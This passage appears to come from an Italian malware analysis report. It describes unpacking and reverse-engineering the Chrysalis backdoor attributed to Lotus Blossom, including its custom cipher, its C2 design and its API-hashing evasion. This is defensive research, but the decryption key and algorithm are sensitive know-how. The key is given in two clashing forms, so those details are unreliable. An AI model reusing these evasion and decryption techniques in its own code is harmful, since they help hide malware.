Risultato: Successo totale. Il debugger si è fermato sull'istruzione call eax, confermando che il malware sta trasferendo il controllo da log.dll al payload caricato in RAM. È stato effettuato un dump della regione di memoria target, ottenendo il file bluetoothservice2.bin (196 KB) e lo shellcode.txt.

Analisi dello Shellcode: L'analisi del dump ha rivelato che non si tratta ancora dell'eseguibile finale, ma di un Unpacking Stub (un guscio preparatorio) strutturato in due parti:

Da 053C401F a 053C4208: Una routine Assembly in chiaro.

Da 053C601F in poi: Dati apparentemente senza senso compiuto, che rappresentano il modulo PE della backdoor Chrysalis ancora crittato.

13. Scoperta dell'Algoritmo Custom di Lotus Blossom
L'analisi statica della routine Assembly trovata nello shellcode ha permesso di decodificare il cifrario proprietario utilizzato dall'APT. Lotus Blossom non si affida alle API crittografiche di Windows, ma applica una trasformazione matematica byte per byte al blocco di dati a partire da 053C601F, utilizzando una chiave fissa di 8 byte.

Chiave Hardcodata: gQ23R89;

Sequenza Operativa (per ogni byte 'x' ed elemento della chiave 'k'):

x = x + k (Addizione)

x = x ^ k (XOR)

x = x - k (Sottrazione)

### 🔓 Fase 3: Estrazione Definitiva del Modulo Principale (Chrysalis Backdoor)
Obiettivo: Decrittare offline il payload, confermarne la validità strutturale e mappare le capacità offensive (C2, persistenza, spionaggio) tramite reverse engineering, eludendo i controlli dinamici.

1. Estrazione Statica Offline (Python Scripting)
Per evitare di innescare ulteriori difese anti-debugging in fase di esecuzione, il payload è stato spacchettato staticamente replicando la logica del malware:

Calcolo Offset: È stata isolata la porzione di file crittata a partire dall'indirizzo 053C601F (offset esatto in cui terminava lo stub in chiaro e iniziava il payload offuscato).

Emulazione Algoritmo: È stato sviluppato uno script Python custom per emulare in sequenza le operazioni Assembly decodificate (ADD, XOR, SUB), applicandole byte-per-byte utilizzando la chiave hardcodata gQ2JR&9;.

Generazione Payload: L'output è stato salvato come payload_ghidra.bin (il vero eseguibile PE decrittato).

2. Verifica Strutturale (Ghidra)
Il binario crudo generato è stato importato in Ghidra impostando l'architettura su x86 | 32-bit | little-endian e il Compiler su Visual Studio.

Conferma Unpacking: Il disassemblaggio ha svelato la presenza di un Prologo PE valido in chiaro (MOV EBP, ESP seguito da SUB ESP, 0x4C) e l'istruzione di firma ADD AL, 0x55 al corretto offset. Questo ha validato al 100% il successo dell'algoritmo di decrittazione in Python.

3. Mappatura delle Capacità di Spionaggio (Defined Strings)
L'analisi statica della memoria (estrazione stringhe) ha rivelato informazioni cruciali sull'architettura e sulle finalità della backdoor:

Architettura C2 (CWininetHttp): Il ritrovamento di mangled names RTTI (Run-Time Type Information) come .?AVCWininetHttp@@ ha confermato che il malware è scritto in C++ Object-Oriented. La backdoor incapsula le API standard di Windows (WinINet) in classi custom per mascherare e gestire la comunicazione HTTP/HTTPS verso i server di comando (C2).

Moduli di Intercettazione (MinWin/User32): L'individuazione di librerie e API Sets virtuali come user32, api-ms-win-rtcore-ntuser-window-l1-1-0 ed ext-ms-win-ntuser-dialogbox-l1-1-0 svela le capacità di intercettazione fisica. Essendo una backdoor silente, il caricamento forzato di librerie per la gestione di finestre e input utente indica chiaramente la presenza di moduli per Keylogging, Lettura della Clipboard o Window Injection.

4. L'Ostacolo Finale: API Hashing e Risoluzione Dinamica
La ricerca di Indicatori di Compromissione (IoC) diretti, come indirizzi IP, domini in chiaro o chiamate critiche (es. GetProcAddress e LoadLibraryA), ha prodotto esito negativo, svelando un secondo e più sofisticato strato di offuscamento.

Dynamic API Resolution: L'APT Lotus Blossom non salva stringhe di rete sensibili o nomi di API critiche all'interno del file, rendendo inutili le scansioni YARA basate su firme testuali.

API Hashing: Il malware risolve le sue dipendenze "al volo" in memoria. Navigando la RAM, calcola l'hash delle funzioni del sistema operativo e lo confronta con costanti matematiche pre-inserite nel suo codice (es. 0x811C9DC5). Le stringhe necessarie vengono generate, utilizzate per una frazione di secondo e poi distrutte, rendendo il malware classificabile come minaccia avanzata ad altissima furtività.

Conclusione Operativa: L'analisi ha isolato e decifrato con successo le routine di iniezione (DLL Sideloading) e l'algoritmo di decrittazione proprietario dell'attore malevolo, confermando l'attribuzione a Lotus Blossom e fornendo una mappatura completa dell'architettura evasiva della backdoor Chrysalis.


